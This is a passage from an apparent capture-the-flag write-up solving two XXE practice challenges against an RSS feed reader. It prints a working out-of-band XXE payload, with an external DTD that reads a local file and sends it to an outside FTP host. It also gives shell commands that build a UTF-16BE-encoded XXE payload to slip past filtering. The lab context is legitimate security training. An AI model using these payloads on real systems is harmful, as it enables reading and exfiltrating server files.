         ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE rss [
            <!ENTITY % asd SYSTEM "http://169.254.54.54:8080/evil.dtd">
            %asd; %c;
        ]>
        <rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
        <channel>
            <title>test</title>
            <link>http://example.com/</link>
            <description>test</description>
            <lastBuildDate>Mn, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
            <item>
                <title>item - test</title>
                <link>http://example.com</link>
                <description>&rrr;</description>
                <author>author</author>
                <pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
            </item>
        </channel>
        </rss>
        ```
    - evil.dtd
        ```xml
        <!ENTITY % d SYSTEM "php://filter/convert.base64-encode/resource=file:///flag.txt">
        <!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://169.254.54.54:2121/%d;'>">
        ```
    - ![](https://i.imgur.com/I4OqpPA.png)

**Flag: `CTF{xxe_oob_via_rss}`**

## 0x11 A4 - Practice 3

![](https://i.imgur.com/2Otjcq3.png)

- feed src
    1. `echo -n '<?xml version="1.0" encoding="UTF-16BE"' > payload.xml`
    2. `echo '?><!DOCTYPE rss [<!ENTITY xxe SYSTEM "file:///flag.txt">]><rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom"><channel><title>test</title><link>http://example.com/</link><description>test</description><lastBuildDate>Mn, 02 Feb 2015 00:00:00 -0000</lastBuildDate><item><title>item - test</title><link>http://example.com</link><description>&xxe;</description><author>author</author><pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate></item></channel></rss>' | iconv -f UTF-8 -t UTF-16BE >> payload.xml`
    3. `cat payload.xml`
        ```xml
        <?xml version="1.0" encoding="UTF-16BE" ? > < ! D O C T Y P E   r s s   [ < ! E N T I T Y   x x e   S Y S T E M   " f i l e : / / / f l a g . t x t " > ] > < r s s   v e r s i o n = " 2 . 0 "   x m l n s : a t o m = " h t t p : / / w w w . w 3 . o r g / 2 0 0 5 / A t o m " > < c h a n n e l > < t i t l e > t e s t < / t i t l e > < l i n k > h t t p : / / e x a m p l e . c o m / < / l i n k > < d e s c r i p t i o n > t e s t < / d e s c r i p t i o n > < l a s t B u i l d D a t e > M n ,   0 2   F e b   2 0 1 5   0 0 : 0 0 : 0 0   - 0 0 0 0 < / l a s t B u i l d D a t e > < i t e m > < t i t l e > i t e m   -   t e s t < / t i t l e > < l i n k > h t t p : / / e x a m p l e . c o m < / l i n k > < d e s c r i p t i o n > & x x e ; < / d e s c r i p t i o n > < a u t h o r > a u t h o r < / a u t h o r > < p u b D a t e > M o n ,   0 2   F e b   2 0 1 5   0 0 : 0 0 : 0 0   - 0 0 0 0 < / p u b D a t e > < / i t e m > < / c h a n n e l > < / r s s > 
        ```
- ![](https://i.imgur.com/0iXL9Tl.png)
